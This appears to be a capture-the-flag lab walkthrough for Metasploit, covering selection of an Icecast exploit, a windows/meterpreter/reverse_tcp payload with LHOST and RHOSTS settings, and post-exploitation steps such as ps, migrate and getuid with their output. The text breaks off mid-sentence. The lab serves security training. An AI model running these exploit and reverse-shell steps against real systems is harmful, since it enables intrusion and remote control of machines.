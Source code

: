 What is the name of the column on the far left side of the console that shows up next to ‘Name’? #

Let’s go ahead and see what information we have collected in the database. Try typing the command ‘hosts’ into the msfconsole now.

One last thing, try the command ‘vulns’ now. This won’t show much at the current moment, however, it’s worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.Now that we’ve scanned our victim system, let’s try connecting to it with a Metasploit payload. First, we’ll have to search for the target payload. In Metasploit 6(the most recent version at the time of writing) you can simply type ‘use’ followed by a unique string found within only the target exploit. For example, try this out now with the following command ‘use icecast’. What is the full path for our exploit that now appears on the msfconsole prompt? This will include the exploit section at the start.Next, let’s set the payload using this command ‘set PAYLOAD windows/meterpreter/reverse_tcp’. In this way, we can modify which payloads we want to use with our exploits. Additionally, let’s run this command ‘set LHOST YOUR_IP_ON_TRYHACKME’. You might have to check your IP using the command ‘ip addr’, it will likely be your tun0 interface.Let’s go ahead and return to our previous exploit, run the command **use icecast** to select it again.One last step before we can run our exploit. Run the command 'set RHOSTS BOX_IP' to tell Metasploit which target to attack.Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command '\*run -j' to run this as a job.Once we've started this, we can check all of the jobs running on the system by running the command jobsAfter we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`

Process to exploit the machine :

Now that we’ve got a shell into our victim machine, let’s take a look at several post-exploitation modules actions we can leverage! Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the ‘help’ command. This menu dynamically expands as we load more modules.

First things first, our initial shell/process typically isn’t very stable. Let’s go ahead and attempt to move to a different process. First, let’s list the processes using the command ‘ps’. What’s the name of the spool service?

```bash
meterpreter > ps Process List ============ PID PPID Name Arch Session User Path 1364 692 spoolsv.exe
spoolsv.exe
```

Let’s go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won’t work at the current time as we don’t have sufficient privileges but we can still try!

```bash
meterpreter > migrate 1364 [*] Migrating from 2356 to 1364... [-] Error running command migrate: Rex::RuntimeError Cannot migrate into this process (insufficient privileges)
```

Well that migration didn’t work, let’s find out some more information about the system so we can try to elevate. What command can we run to find out more information regardin

```bash
meterpreter > getuid Server username: Dark-PC\Dark
```
